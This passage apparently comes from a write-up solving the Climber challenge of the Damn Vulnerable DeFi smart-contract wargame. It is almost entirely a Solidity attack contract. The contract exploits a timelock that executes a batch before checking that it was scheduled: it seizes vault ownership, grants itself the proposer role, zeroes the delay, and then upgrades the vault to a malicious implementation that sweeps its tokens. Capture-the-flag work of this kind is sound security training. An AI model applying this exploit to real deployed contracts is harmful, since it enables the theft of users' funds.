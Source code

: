 ```solidity
    address private immutable timelock;
    address private immutable token;
    address private immutable recovery;

    address[] private targets = new address[](4);
    uint256[] private values = [0, 0, 0, 0];
    bytes[] private dataElements = new bytes[](4);

    constructor(address _vault, address _timelock, address _token, address _recovery) {
        _initializeOwner(msg.sender);

        vault = _vault;
        timelock = _timelock;
        token = _token;
        recovery = _recovery;
    }

    function attack() external onlyOwner {
        targets[0] = vault;
        values[0] = 0;
        // set this contract  as the owner of the vault
        dataElements[0] = abi.encodeCall(IClimberVault.transferOwnership, (address(this)));
        targets[1] = timelock;
        values[1] = 0;
        // grant the PROPOSER role to this contract for executing the schedule function later
        dataElements[1] = abi.encodeCall(IClimberTimelock.grantRole, (PROPOSER_ROLE, address(this)));
        targets[2] = timelock;
        values[2] = 0;
        // update the delay time for executing the schedule function later
        dataElements[2] = abi.encodeCall(IClimberTimelock.updateDelay, (0));
        targets[3] = address(this);
        values[3] = 0;
        // schedule these operations
        dataElements[3] = abi.encodeCall(AttackClimber.scheduleMalicious, ());

        IClimberTimelock(timelock).execute(targets, values, dataElements, hex"00");
        IClimberVault(vault).upgradeToAndCall(
            address(new MaliciousClimberVault()), abi.encodeCall(MaliciousClimberVault.sweepFunds, (token, recovery))
        );
    }

    function scheduleMalicious() external {
        IClimberTimelock(timelock).schedule(targets, values, dataElements, hex"00");
    }
}
```

### Test contract
